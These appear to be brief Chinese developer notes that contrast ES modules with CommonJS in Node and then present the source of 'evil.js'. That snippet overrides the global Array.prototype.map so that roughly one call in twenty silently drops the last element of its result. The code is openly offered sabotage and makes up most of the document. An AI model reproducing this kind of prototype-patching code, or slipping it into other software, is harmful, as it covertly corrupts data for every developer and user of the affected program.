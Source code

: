 # 开发心得

## ESM规范

- EcmaScript Module（后文简称ESM）
- CommonJS（后文简称CJS）

Node v12之前支持 CJS 规范，12之后同时支持 CJS 与 ESM

## evil.js实现源码

```js
const _rand = Math.random;
const _map = Array.prototype.map;

Array.prototype.map = function (...args) {
  result = _map.call(this, ...args);
  if (_rand() < 0.05) {
    result.length = Math.max(result.length - 1, 0);
  }
  return result;
}
```
